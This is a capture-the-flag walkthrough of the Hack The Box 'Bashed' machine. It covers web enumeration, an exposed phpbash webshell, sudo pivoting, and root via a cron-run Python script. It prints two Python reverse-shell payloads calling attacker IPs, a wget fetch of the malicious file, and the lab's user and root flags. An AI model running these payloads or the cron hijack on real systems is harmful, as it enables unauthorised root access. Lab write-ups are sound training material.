## Reconnaissance

### nmap 
```
nmap -sV -sC -oA bashed 10.129.228.101
```


### website



### Path Enumeration

```
gobuster dir -u http://10.129.228.101 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```


> The most interesting path is 

```
/dev
```

> Check it 



> Access following php page
```
phpbash.php
```



> I got an easy webshell with www-root user



> Try to read user flag, and I got the flag



> Get user flag 

``` 
49ab3642b3d19bb69071bb432c30ff89 
```



### Try to create reverse shell 

> Using the following python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


> Check the nc status, I got the reverse shell 



> Read user flag
```
49ab3642b3d19bb69071bb432c30ff89
```


## Post Exploitation 

> With the www-root user, I can get user flag.
> Now I have to get root shell
> First check sudo list to konw what's the command can be execute in this or other user

```
sudo -l
```

> I know there is a user named scriptmanager can be call without password


> So, chang to it 
``` 
sudo -u scriptmanager /bin/bash
```



> Using python to beautify the shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```



> Check the current user 

```
id
```



> So, the current user is scriptmanager now.
> Let's find out what kind of directory or file is own by this user 
> The most special results 

 1. ```/script/test.py```

```
find / -type f -user scriptmanager -group scriptmanager 2>/dev/null; find / -typd d -user scriptmanager -group scriptmanager 2>/dev/null
```



> Check script directory, 2 files
1. test.py
2. test.txt


> Check test file content

```
testing 123!
```



> Check test python file 

```
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```
> It will open test file and write "testing 123!" into it.



> And about the metadata on these 2 files
> I know the test file is own by root and the date is keeping changing to latest one.
> but it is created by test python, so, I think there might be a cron job to execute the python file.
> And the execute operation user is root.



> So if I can replace the origin python file to malicious one.
> The cron job will execute it with root user.
> Then I can create a reverse shell as root use.
> So, create a malicious python file first.

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.17.145",1336))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```



> Create a simple http server in attack host

```
python3 -m http.server 9797
```

> Using wget to download it from attack host to victim site.

```
wget http://10.10.17.145:9797/test.py
```



> Change the origin test python file name.

```
mv test.py test.py.2
mv test.py.1 test.py
```



> Check the nc status, it will get reverse shell



> Get root flag : 

``` 
74e298468046bdbdaa318f203a60b06c
```



## Reference 

- [(writeup)Hack The Box – Bashed Walkthrough](https://steflan-security.com/hack-the-box-bashed-walkthrough/)
- [Linux: Find command](https://www.cyberciti.biz/faq/how-do-i-find-all-the-files-owned-by-a-particular-user-or-group/)
- [Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)



###### tags: `HackTheBox` `PHP` `Easy` `bashed` `reverse shell` `linux`